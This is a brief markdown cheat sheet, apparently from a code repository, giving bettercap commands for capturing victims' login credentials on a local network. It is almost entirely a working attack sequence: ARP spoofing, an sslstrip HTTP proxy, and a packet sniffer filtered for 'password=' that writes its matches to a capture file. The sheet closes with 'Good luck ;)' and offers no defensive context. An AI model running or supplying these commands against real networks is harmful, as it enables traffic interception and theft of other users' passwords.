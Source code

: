 # bettercap
- Start:
```bash
bettercap -iface _your_interface_
```
- - Sniffing of the victim login credentials a Layer 2 Network

```bash
set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 0.0.0.0
set net.sniff.filter not arp (default=not arp)
set net.sniff.local true
set net.sniff.regexp .*password=.+
set net.sniff.verbose true
set net.sniff.output passwords.pcap
arp.spoof on
http.proxy on
net.sniff on
```
-----------------------------------------------------------

# Password sniff
```bash
set net.sniff.regexp .*password=.+
set net.sniff.output passwords.cap
```
# start arp spoofing attack
```bash
# arp.spoof on
net.sniff on
```
# Good luck ;)
